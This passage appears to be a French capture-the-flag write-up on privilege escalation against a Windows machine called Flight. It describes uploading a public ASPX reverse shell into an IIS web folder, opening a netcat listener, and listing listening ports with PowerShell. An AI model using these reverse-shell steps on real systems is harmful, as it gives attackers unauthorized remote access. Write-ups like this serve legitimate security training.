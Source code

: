 ![Flight-12](../../Flight-12.png)

### Elevation de privilèges

#### Upload du reverse shell
On upload donc un reverse shell dans le dossier `c:\inetpub\development`. Le reverse shell doit être un fichier `.aspx`, on utilise [celui-ci](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx) après avoir modifier son entête pour y configurer notre adresse IP et port sur lequel s'exécutera un nouveau listerner que l'on lance une fois de plus avec `rlwrap nc -lnvp 1339`

#### Exécution
Pour trouver sur quel port le service IIS est en écoute, nous utilisons la commande suivante :

```
PS > Get-NetTCPConnection -State Listen | Select-Object -Property @{'Name' = 'ProcessName';'Expression'={(Get-Process -Id $_.OwningProcess).Name}},LocalPort

ProcessName                           LocalPort
-----------                           ---------
dfsrs                                     49731
dns                                       49694
services                                  49682
lsass                                     49674
lsass                                     49673
lsass                                     49667
svchost                                   49666
svchost                                   49665
wininit                                   49664
System                                    47001
Microsoft.ActiveDirectory.WebServices      9389
System                                     8000
System                                     5985
lsass                                      3269
lsass                                      3268
lsass                                       636
svchost                                     593
lsass                                       464
System                                      445
httpd                                       443
```